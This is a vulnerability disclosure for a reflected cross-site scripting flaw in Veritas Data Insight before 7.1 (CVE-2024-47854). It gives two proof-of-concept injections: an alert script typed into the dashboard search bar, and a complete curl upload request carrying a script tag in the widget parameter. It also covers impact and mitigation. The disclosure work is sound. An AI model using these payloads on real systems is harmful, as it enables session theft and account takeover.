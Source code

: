 # CVE-2024-47854

**Severity :** **Medium** (**6.1**)

**CVSS score :** `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` 

## Summary :

An **Reflected Cross-Site Scripting (XSS)** vulnerability was discovered in Veritas **Data Insight** before **7.1**. It allows a remote attacker to inject an arbitrary web script into an HTTP request that could reflect back to an authenticated user without sanitization if executed by that user.

There are 2 possible injections:

## Poc 1
### Steps to Reproduce :
1. Insert the following payload inside the searchbar of the page https://<your_data_insight_fqdn>/#!/dashboardview

```html
<script>alert(1)</script>
```
2. An orange popup will reflect the html/js injected.

## Poc 2
### Steps to Reproduce :
1. Log in into the app then perform the file upload as shown with curl (replace host and cookie) at https://<your_data_insight_fqdn>/upload?key=reports&**widget=%3CscrIpt%3Ealert%2
81%29%3B%3C%2FscRipt%3E**

```
curl -i -s -k -X $'POST' \
-H $'host: <your_data_insight_host>' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-
Language: en-US,en;q=0.5' -H $'Content-Type: multipart/form-data; boundary=---------------------------
20101797902913131172305294003' -H $'Content-Length: 239' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-
Dest: iframe' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' \
-b <your_cookie> \
--data-binary $'-----------------------------20101797902913131172305294003\x0d\x0aContent-
Disposition: form-data; name=\"file_upload\"; filename=\"test.csv\"\x0d\x0aContent-
Type: text/csv\x0d\x0a\x0d\x0atest\x0d\x0a\x0d\x0a-----------------------------
20101797902913131172305294003--' \
$'https://<your_data_insight_host>/upload?key=reports&widget=%3CscrIpt%3Ealert%2
81%29%3B%3C%2FscRipt%3E'
```
2. The response will contain:

```html
<scrIpt>alert(1);</scRipt>
```

## Affected Version Details :

- <=7.1

## Impact :

The attacker can use social engineering techniques to make the victim click on a crafted malicious url in order to exfiltrate data or install malware on the user’s machine. Attackers can steal cookies and masquerade as authorized, allowing them to perform any action allowed by the user account.

## Mitigation :

- Implement input sanitization and/or implement html entities encoding
  
## References :

- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-47854](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-47854)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-47854](https://nvd.nist.gov/vuln/detail/CVE-2024-47854)
- [https://www.veritas.com/support/en_US/security/VTS24-010](https://www.veritas.com/support/en_US/security/VTS24-010)
